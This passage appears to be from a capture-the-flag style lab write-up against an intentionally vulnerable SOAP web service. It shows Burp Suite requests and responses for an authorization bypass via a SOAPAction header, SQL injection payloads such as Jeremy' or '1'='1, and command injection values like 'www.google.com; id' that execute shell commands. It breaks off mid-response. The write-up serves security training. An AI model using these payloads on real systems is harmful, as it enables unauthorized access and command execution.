</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 16:08:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=iofpodku19k7eibg1vkplnbil5; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Content-Length: 1182
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:deleteUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><exception><line>267</line><code>0</code><file>/app/webservices/soap/ws-user-account.php</file><message>Parameter  is required</message>📌<trace>#0 /app/webservices/soap/ws-user-account.php(372): assertParameter(NULL)
#1 [internal function]: deleteUser('Jeremy')
#2 /app/webservices/soap/lib/nusoap.php(4217): call_user_func_array('deleteUser', Array)
#3 /app/webservices/soap/lib/nusoap.php(3824): nusoap_server->invoke_method()
#4 /app/webservices/soap/ws-user-account.php(407): nusoap_server->service('<soapenv:Envelo...')
#5 {main}</trace><diagnoticInformation>Unable to process request to web service ws-user-account->deleteUser()</diagnoticInformation></exception></return></ns1:deleteUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:deleteUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">📌
<username xsi:type="xsd:string">Jeremy</username><password>
WeDoNotKnowIt!</password>📌
</urn:deleteUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 16:07:34 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=bvb5ikoctt8g4crs7srh8n4584; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 595
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:deleteUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="Could not authenticate account Jeremy. Password incorrect." />📌</return></ns1:deleteUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 387
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getAdminInfo soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">📌
</urn:getAdminInfo>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.0 500 Internal Server Error 📌
Date: Fri, 29 Nov 2024 16:10:33 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=f46jbo190civauu2mv93polbu3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Status: 500 Internal Server Error
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Content-Length: 638
Connection: close
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
  xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body><SOAP-ENV:Fault><faultcode xsi:type="xsd:string">Only admin user can invoke this method!</faultcode>📌<faultactor xsi:type="xsd:string"></faultactor><faultstring xsi:nil="true"/><detail xsi:type="xsd:string"></detail></SOAP-ENV:Fault></SOAP-ENV:Body></SOAP-ENV:Envelope>📌
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 387
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
SOAPAction: "urn:ws-user-account#getAdminInfo"📌

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK 📌
Date: Fri, 29 Nov 2024 16:20:38 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=vksrmaab1rgtbd4ih4q30iaqq3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 775
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getAdminInfoResponse xmlns:ns1="http://schemas.xmlsoap.org/soap/envelope/"><return xsi:type="xsd:xml"><accounts message="Results for admin">📌<account><username>admin</username><signature>g0t r00t?</signature></account></accounts><flag><msg>You earned the flag -></msg><key>flag2</key><value>4315749f21a66fad53895daccbebf309</value></flag>🚩</return></ns1:getAdminInfoResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

### Testing for SQL Injection

#### Lab Environment

**Web Services - SQL Injection**

#### Lab Solution

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 📌
<username xsi:type="xsd:string">Jeremy'</username> 📌
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:11:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=mc196i91ll2afo4vlmv77f7sr3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Content-Length: 1993
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml">📌<exception>📌<line>199</line><code>0</code><file>/app/classes/MySQLHandler.php</file><message>/app/classes/MySQLHandler.php on line 194: Error executing query: <br /><br />connect_errno: 0<br />errno: 1064<br />error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Jeremy''' at line 3<br />client_info: 5.5.60<br />host_info: 127.0.0.1 via TCP/IP<br /><br />) Query: SELECT username, mysignature &#xd;&#xa;&#x9;&#x9;&#x9;FROM accounts&#xd;&#xa;&#x9;&#x9;&#x9;WHERE username&#x3d;&#x27;Jeremy&#x27;&#x27; (0) [Exception] <br />
</message><trace>#0 /app/classes/MySQLHandler.php(292): MySQLHandler->doExecuteQuery('SELECT username...')
#1 /app/classes/SQLQueryHandler.php(320): MySQLHandler->executeQuery('SELECT username...')
#2 /app/webservices/soap/ws-user-account.php(254): SQLQueryHandler->getNonSensitiveAccountInformation('Jeremy'')
#3 /app/webservices/soap/ws-user-account.php(283): xmlEncodeQueryResults('Jeremy'', false, Object(SQLQueryHandler))
#4 [internal function]: getUser('Jeremy'')
#5 /app/webservices/soap/lib/nusoap.php(4217): call_user_func_array('getUser', Array)
#6 /app/webservices/soap/lib/nusoap.php(3824): nusoap_server->invoke_method()
#7 /app/webservices/soap/ws-user-account.php(407): nusoap_server->service('<soapenv:Envelo...')
#8 {main}</trace><diagnoticInformation>Unable to process request to web service ws-user-account->getUser()</diagnoticInformation></exception></return></ns1:getUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```



`burpsuite` > `Intruder`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 587
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:updateUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 📌
<username xsi:type="xsd:string">Jeremy'</username> 📌
<password xsi:type="xsd:string">WeDoNotKnowit!</password>
<signature xsi:type="xsd:string">Hacked</signature>
</urn:updateUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK 📌
Date: Fri, 29 Nov 2024 15:27:38 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=3oh3mfltm11js8fg5e9nkm5f71; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Content-Length: 1847
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:updateUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml">📌<exception>📌<line>199</line><code>0</code><file>/app/classes/MySQLHandler.php</file><message>/app/classes/MySQLHandler.php on line 194: Error executing query: <br /><br />connect_errno: 0<br />errno: 1064<br />error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Jeremy''' at line 1<br />client_info: 5.5.60<br />host_info: 127.0.0.1 via TCP/IP<br /><br />) Query: SELECT username FROM accounts WHERE username&#x3d;&#x27;Jeremy&#x27;&#x27;&#x3b; (0) [Exception] <br />
</message><trace>#0 /app/classes/MySQLHandler.php(292): MySQLHandler->doExecuteQuery('SELECT username...')
#1 /app/classes/SQLQueryHandler.php(273): MySQLHandler->executeQuery('SELECT username...')
#2 /app/webservices/soap/ws-user-account.php(338): SQLQueryHandler->accountExists('Jeremy'')
#3 [internal function]: updateUser('Jeremy'', 'Wedontknowit!', 'Try Harder')
#4 /app/webservices/soap/lib/nusoap.php(4217): call_user_func_array('updateUser', Array)
#5 /app/webservices/soap/lib/nusoap.php(3824): nusoap_server->invoke_method()
#6 /app/webservices/soap/ws-user-account.php(407): nusoap_server->service('<soapenv:Envelo...')
#7 {main}</trace><diagnoticInformation>Unable to process request to web service ws-user-account->updateUser()</diagnoticInformation></exception></return></ns1:updateUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 587
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:updateUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 📌
<username xsi:type="xsd:string">Jeremy' or '1'='1</username> 📌
<password xsi:type="xsd:string">WeDoNotKnowit!</password>
<signature xsi:type="xsd:string">Hacked</signature>
</urn:updateUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:26:16 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=vv8ern5eqeh0lll2ghh6evc8e3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 570
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:updateUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="Updated account Jeremy' or '1'='1" /></return>📌</ns1:updateUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<username xsi:type="xsd:string">Jeremy</username> 📌
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:30:25 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=88tdctl4s3b4evlj5ef5adkcc4; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 558
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="User Jeremy does not exist}" />📌</return></ns1:getUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<username xsi:type="xsd:string">admin</username> 📌
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:30:25 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=88tdctl4s3b4evlj5ef5adkcc4; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 558
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="User admin does not exist}" />📌</return></ns1:getUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

### Testing for Command Injection

#### Lab Environment

**Web Services - Command Injection**

#### Lab Solution



`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-lookup-dns-record.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:commandinjwsdl#commandinj"
Content-Length: 473
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:commandinjwsdl">
<soapenv:Header/>
<soapenv:Body>
<urn:lookupDNS soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<targetHost xsi:type="xsd:string">www.google.com</targetHost> 📌
</urn:lookupDNS>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK 📌
Date: Fri, 29 Nov 2024 15:34:48 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=jf3cf62hclac9c4el176raggh6; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 552
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body>📌<ns1:lookupDNSResponse xmlns:ns1="urn:commandinjwsdl"><Answer xsi:type="xsd:xml"><results host="www.google.com"></results></Answer></ns1:lookupDNSResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-lookup-dns-record.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:commandinjwsdl#commandinj"
Content-Length: 473
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:commandinjwsdl">
<soapenv:Header/>
<soapenv:Body>
<urn:lookupDNS soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<targetHost xsi:type="xsd:string">www.google.com; id</targetHost> 📌
</urn:lookupDNS>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:35:54 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=79aglp3bij645tlhgp214orm71; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 610
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:lookupDNSResponse xmlns:ns1="urn:commandinjwsdl"><Answer xsi:type="xsd:xml"><results host="www.google.com; id">uid=33(www-data) gid=33(www-data) groups=33(www-data) 🚩
</results></Answer></ns1:lookupDNSResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-lookup-dns-record.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:commandinjwsdl#commandinj"
Content-Length: 448
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:commandinjwsdl">
<soapenv:Header/>
<soapenv:Body>
<urn:lookupDNS soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<targetHost xsi:type="xsd:string">www.google.com; pwd</targetHost> 📌
</urn:lookupDNS>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:37:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=6b5njqsq6fd9mcgn0jtd3s7f56; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 579
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:lookupDNSResponse xmlns:ns1="urn:commandinjwsdl"><Answer xsi:type="xsd:xml"><results host="www.google.com; pwd">/app/webservices/soap
</results>📌</Answer></ns1:lookupDNSResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-lookup-dns-record.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:commandinjwsdl#commandinj"
Content-Length: 448
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:commandinjwsdl">
<soapenv:Header/>
<soapenv:Body>
<urn:lookupDNS soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<targetHost xsi:type="xsd:string">www.google.com; ls -al /app</targetHost> 📌
</urn:lookupDNS>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:38:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=4rg6jp9b6smutfe35usevkrkn3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
